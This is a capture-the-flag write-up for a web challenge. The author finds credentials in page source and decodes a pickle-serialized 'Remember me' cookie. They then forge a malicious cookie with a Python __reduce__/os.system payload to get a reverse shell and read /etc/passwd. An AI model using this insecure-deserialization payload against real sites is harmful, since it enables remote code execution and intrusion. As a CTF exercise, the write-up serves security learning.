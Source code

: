 
Challenge Description:
We have noticed some weird actions on our website , we think that our passwd file has been compromised , can you make sure that it is secure

Step 1:
when you open the chakenge link you will see a login page i try to do a sqli didn't work then 

Step 2:
i open the page sourse i found a username and password 

![image](https://github.com/user-attachments/assets/47456439-1562-4c0a-b120-66badd4f3268)

step 3:
whe i login there is nothing useful i try bunch of thing like dir fuzzing 

step4:
 i notice there is a Remember me button when i cheaked it  there is new cookie apper after same search i found that cookie is a pickle serialization

step 5: 
i try to deserialize i try to decode as base64 but the apper in a unreadable text 
![image](https://github.com/user-attachments/assets/99a6ae69-8641-46b6-ab96-a843d92f77a7)

step 6:
i try use code i found in the internet but the same thing after same deging i found why the apper in unredable text i write this code to deserialize

```
import pickle
import base64

# Define the class `usr` (or import it if it's defined elsewhere)
class usr:
    def __init__(self, username, password):
       pass
    def __repr__(self):
        return f"usr(username='{self.username}', password='{self.password}')"
cookie = "yourcookie"

# Decode the base64 encoded string
decoded_cookie = base64.b64decode(cookie)

# Deserialize using pickle
deserialized_data = pickle.loads(decoded_cookie)

print(deserialized_data)
```
the output of this code be like this ```usr(username='test', password='test')```

step 7:
Then i write code to make my own serializa cookie i write this code 
```
import pickle
import base64
import subprocess
import os

class RCE(object):
    def __reduce__(self):
        cmd = 'Here can put any command you want '
        return os.system, (cmd,)

class usr(object):
    def __init__(self, username, password):
        self.username = username
        self.password = password

if __name__ == '__main__':
    user = usr(username=RCE(), password=RCE())

    pickled = pickle.dumps(user)
    
    encoded = base64.b64encode(pickled)
    print(encoded)
    encoded_urlsafe = base64.urlsafe_b64encode(pickled)
    print(encoded_urlsafe)
```
Then i make a rev shell then after genrate the cookie change it with cookie in the website 
after getting the rev shell i try to search to found the flag but notheing there called flag.txt samething like that after a reread the Description i notice i will found in the /etc/passwd file 
